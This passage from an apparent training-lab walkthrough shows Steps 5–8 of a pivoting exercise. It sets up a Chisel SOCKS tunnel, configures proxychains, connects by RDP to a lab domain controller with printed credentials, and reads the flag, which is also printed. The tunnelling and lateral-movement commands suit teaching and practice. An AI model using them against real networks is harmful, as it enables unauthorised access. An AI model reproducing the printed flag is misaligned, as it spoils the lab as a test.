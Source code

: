 #### **Step 5: Connect Client from Attack Host**
```bash
# On Pwnbox - connect to Chisel server
./chisel_1.7.6_linux_amd64 client -v [TARGET_IP]:9001 socks

# Example:
./chisel_1.7.6_linux_amd64 client -v 10.129.202.64:9001 socks

# Expected output:
# 2022/08/29 16:43:10 client: Connecting to ws://10.129.202.64:9001
# 2022/08/29 16:43:10 client: tun: proxy#127.0.0.1:1080=>socks: Listening
# 2022/08/29 16:43:11 client: Connected (Latency 87.992506ms)
# 2022/08/29 16:43:11 client: tun: SSH connected
```

#### **Step 6: Configure Proxychains**
```bash
# Verify proxychains configuration
tail -n2 /etc/proxychains.conf

# Should show:
#socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080

# If not configured, edit:
sudo nano /etc/proxychains.conf
# Add: socks5 127.0.0.1 1080
# Comment: #socks4 127.0.0.1 9050
```

#### **Step 7: RDP to Domain Controller**
```bash
# Use proxychains to RDP through tunnel
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:'pass@123'

# Expected connection details:
# Certificate details for 172.16.5.19:3389 (RDP-Server):
# Common Name: DC01.inlanefreight.local
# Subject:     CN = DC01.inlanefreight.local
# Accept certificate: Y
```

#### **Step 8: Retrieve Flag**
```cmd
# In RDP session, open Command Prompt
# Navigate to Documents folder
cd C:\Users\victor\Documents\

# Read flag file
type flag.txt

# Expected flag content:
Th3$eTunne1$@rent8oring!
```
